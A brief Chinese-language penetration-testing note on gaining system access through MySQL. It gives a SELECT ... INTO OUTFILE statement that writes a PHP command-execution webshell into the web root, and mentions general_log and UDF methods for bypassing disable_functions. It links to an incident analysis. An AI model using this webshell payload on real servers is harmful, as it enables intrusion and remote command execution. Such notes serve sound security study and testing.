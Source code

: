 ## 0x01 利用 MySQL 获取系统权限

利用`SELECT "<?system("$_POST[cmd]);?>" INTO OUTFILE '/path/to/webroot'`语句，或者general_log向Web目录写入一个Webshell。

利用MySQL UDF来进行命令执行。通常利用UDF来执行命令的情况有PHP低权限但是MySQL是高权限的情况，或者是PHP用 disable_functions限制了调用系统命令执行的方式，所以利用UDF来绕过disable_functions。


[phpStudy 批量入侵的分析与溯源](https://mp.weixin.qq.com/s/XwBHG0xUgGxeBF1YLV46ng)

